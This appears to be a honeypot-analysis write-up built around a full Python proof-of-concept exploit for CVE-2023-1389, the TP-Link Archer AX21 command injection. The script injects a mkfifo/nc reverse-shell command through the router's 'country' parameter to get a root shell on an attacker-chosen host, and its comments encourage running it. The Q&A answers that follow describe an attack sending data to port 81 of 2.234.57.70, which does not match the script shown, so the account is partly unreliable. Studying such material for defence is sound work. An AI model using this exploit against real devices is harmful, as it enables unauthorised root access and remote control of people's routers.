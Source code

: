 ```
# "/cgi-bin/luci/;stok=/locale" endpoint. By modifying the country parameter it is 
# possible to run commands as root. Execution requires sending the request twice;
# the first request sets the command in the *country* value, and the second request 
# (which can be identical or not) executes it. 
# 
# This script is a short proof of concept to obtain a reverse shell. To read more 
# about the development of this script, you can read the blog post here:
# https://medium.com/@voyag3r-security/exploring-cve-2023-1389-rce-in-tp-link-archer-ax21-d7a60f259e94
# Before running the script, start a nc listener on your preferred port -> run the script -> profit

import requests, urllib.parse, argparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress warning for connecting to a router with a self-signed certificate
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Take user input for the router IP, and attacker IP and port
parser = argparse.ArgumentParser()

parser.add_argument("-r", "--router", dest = "router", default = "192.168.0.1", help="Router name")
parser.add_argument("-a", "--attacker", dest = "attacker", default = "127.0.0.1", help="Attacker IP")
parser.add_argument("-p", "--port",dest = "port", default = "9999", help="Local port")

args = parser.parse_args()

# Generate the reverse shell command with the attacker IP and port
revshell = urllib.parse.quote("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc " + args.attacker + " " + args.port + " >/tmp/f")

# URL to obtain the reverse shell
url_command = "https://" + args.router + "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(" + revshell + ")"

# Send the URL twice to run the command. Sending twice is necessary for the attack
r = requests.get(url_command, verify=False)
r = requests.get(url_command, verify=False)
```

## What is the goal of the attack?
#### If successful this attack would have made an HTTP GET request to a webserver running on port 81 of the attacking system 2.234.57.70 sending the following information to the attacker:
* The IP address of the honeypot: 54.67.87.80
* The architecture of the honeypot: x86_64
* The fact that the command injection was successful

## If the system is vulnerable, do you think the attack will be successful?
Yes this attack was executed correctly and would have been successful if the system was a TP-Link Archer AX21 (AX1800) router running firmware versions before 1.1.4 Build 20230219 
